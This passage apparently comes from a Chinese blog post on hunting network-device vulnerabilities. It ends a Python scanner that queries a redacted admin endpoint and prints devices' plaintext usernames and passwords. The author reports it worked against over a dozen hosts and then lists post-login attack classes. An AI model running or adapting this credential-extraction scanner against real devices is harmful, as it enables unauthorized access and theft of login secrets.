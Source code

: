 ```
        board = s['board']
        # 设置硬编码漏洞URL
        if ('model' in board):
            vul = url + '\t' + "型号" + board['model']
            # 设置获取密码接口
            url_admin = url + "/xxxxx"
            response_admin = requests.get(url=url_admin, headers=header(), verify=False, timeout=10)
            text2 = response_admin.text
            s2 = json.loads(text2)
            # 获取登录用户名
            username = str(s2['data'][0]['username'])
            password = str(s2['data'][0]['password_origin'])
            print("[存在硬编码漏洞！]")
            print(vul + '\t' + "[username:" + username + '\t' + "password:" + password + "]" + "\r")
        else:
            print("什么也没有")

    except Exception as e:
        print("[" + url + "]" + "[服务异常：]", format(e))


if __name__ == '__main__':
    main()
```



让我们看一下检测效果吧

![image-20230224151723067](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202302241517108.png)



![image-20230224151728384](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202302241517424.png)



![image-20230224151731552](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202302241517593.png)



而后测试了十几个之后发现无往不利，那么就已经足以证明这个漏洞的有效性

 

关于登录处的案例暂时分享这些，其余的并没有放出来，实际上登录处还能测什么呢？像组件的shiro、s2、log4j、fastjson、spring等等，还是有的。关于组件漏洞、中间件漏洞这种无关程序自身的，这里不做过多介绍，插件足够多的话，只要有漏洞就可以扫出来。



# 二、登录后漏洞

网络设备功能其实并不多，抛开协议层次和通信过程产生的安全隐患，后台的漏洞实际上危害较大的就那么几种：命令注入、代码注入、远程命令执行、任意文件读取、文件上传、计划任务、任意SQL语句执行以及未授权访问漏洞(实际上XSS也不少，但是平台不收，这里就不讲了)
